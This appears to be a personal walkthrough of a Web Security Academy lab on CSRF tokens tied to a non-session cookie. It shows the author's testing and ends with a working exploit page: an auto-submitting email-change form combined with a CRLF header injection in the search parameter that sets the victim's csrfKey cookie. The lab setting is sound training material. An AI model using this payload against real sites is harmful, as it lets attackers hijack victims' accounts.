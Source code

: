 # Practitioner Lab 81 : CSRF where token is tied to non-session cookie

---

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

![Untitled](Practitioner%20Lab%2081%20CSRF%20where%20token%20is%20tied%20to%20no%20dc4586f41ceb447eb0e7b267ae538e5f/Untitled.png)

Here I can see the email which is something I can change with CSRF, I can also see the CSRF token which I will have to test soon. 

I can also see a new csrfkey as well as the LastSearchTerm. 

Testing with an invalid CSRF token to see if it passes it didnt work.

![Untitled](Practitioner%20Lab%2081%20CSRF%20where%20token%20is%20tied%20to%20no%20dc4586f41ceb447eb0e7b267ae538e5f/Untitled%201.png)

I will now test it with a valid csrf token but from another user to see if it is tied to the cookie.

![Untitled](Practitioner%20Lab%2081%20CSRF%20where%20token%20is%20tied%20to%20no%20dc4586f41ceb447eb0e7b267ae538e5f/Untitled%202.png)

This is the csrf token from the other user. 

Other user CSRF token: CwJh4Rp32dV0XcWf0DtI4l6zXylzTa0W

csrfKey: PVvb4R5V6DbAzsvYsvy5gWECdYrJyJxh

Testing a valid token from another user doesn’t work which shows me that the token is tied to the cookie.

Now I have to test if the token and the cookie from another user works this will tell me if it is tied to the session.

The cookie and the token from another user did work meaning that it is not tied to the session now I need to find a way to send this cookie to another user probably through the search parameter which is not tied to any cookie.

I went to intercept, made a request, used that csrf and the cookie to put into the payload

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2900bc035679bc81e870e1006b008e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="newchangew&#64;changed" />
      <input type="hidden" name="csrf" value="MJ57Nkhvc3T3Zqcp76A0eqZs7ZtJ8F9Q" />
      <input type="submit" value="Submit request" />
    </form>
   
     <img src="https://0a2900bc035679bc81e870e1006b008e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Y62H1wm5YafAm8t6wY2Jjhhg07Q2AERV%3b%20SameSite=None" onerror="document.forms[0].submit()">
   
  </body>
</html>
```

This solved the lab.